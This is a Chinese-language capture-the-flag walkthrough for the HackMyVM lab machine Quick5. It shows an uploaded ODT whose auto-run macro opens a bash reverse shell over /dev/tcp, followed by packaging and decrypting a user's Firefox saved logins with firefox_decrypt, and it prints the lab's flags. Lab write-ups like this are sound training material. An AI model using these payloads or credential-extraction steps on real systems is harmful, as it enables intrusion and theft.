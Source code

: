 # Quick5

2025.03.29 https://hackmyvm.eu/machines/machine.php?vm=Quick5

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

添加到 host : customer.quick.hmv

默认 80 什么都没有，扫描 vhost 发现：

```
careers                 [Status: 200, Size: 13819, Words: 3681, Lines: 245, Duration: 41ms]
customer                [Status: 200, Size: 2258, Words: 292, Lines: 41, Duration: 10ms]
www.careers             [Status: 200, Size: 13819, Words: 3681, Lines: 245, Duration: 69ms]
www.customer            [Status: 200, Size: 2258, Words: 292, Lines: 41, Duration: 33ms]
employee                [Status: 200, Size: 2258, Words: 292, Lines: 41, Duration: 112ms]
```

都添加到 host 中: careers.quick.hmv customer.quick.hmv www.careers.quick.hmv www.customer.quick.hmv employee.quick.hmv

扫描域名，发现 http://careers.quick.hmv/apply.php 上传图片显示 Only ODT and PDF are allowed.

odt 中可以写入宏，同时配置 event 在打开文档时自动执行下面的宏：

```
Sub on_open(oEvent As Object)
    Shell("bash -c 'bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'")
End Sub
```

配置好后，在上传 odt，等待几分钟，得到反弹 shell。

拿到 user flag：

```
andrew@quick5:~$ cat user.txt
HMV{f1a85c0f54de51d374e15a73a2d71cd6}
```

其他路径没信息，发现 firefox /home/andrew/snap/firefox/common/.mozilla/firefox/ii990jpt.default 将其打包，传输到 kali 上解密保存的登陆凭据：

```
cd ~/snap/firefox/common/.mozilla/firefox
tar -cvf ii990jpt.default.tar.gz ii990jpt.default
```

使用这个库进行解密：

```
git clone https://github.com/unode/firefox_decrypt.git
python3 firefox_decrypt.py ~/Downloads/z/ii990jpt.default

Website:   http://employee.quick.hmv
Username: 'andrew.speed@quick.hmv'
Password: 'SuperSecretPassword'
```

这个密码不是 andrew 的，尝试是不是 root 的，切换成功，拿到 root flag：

```
HMV{7b243f33c5eb851f1c73fb6d6b3a974a}
```
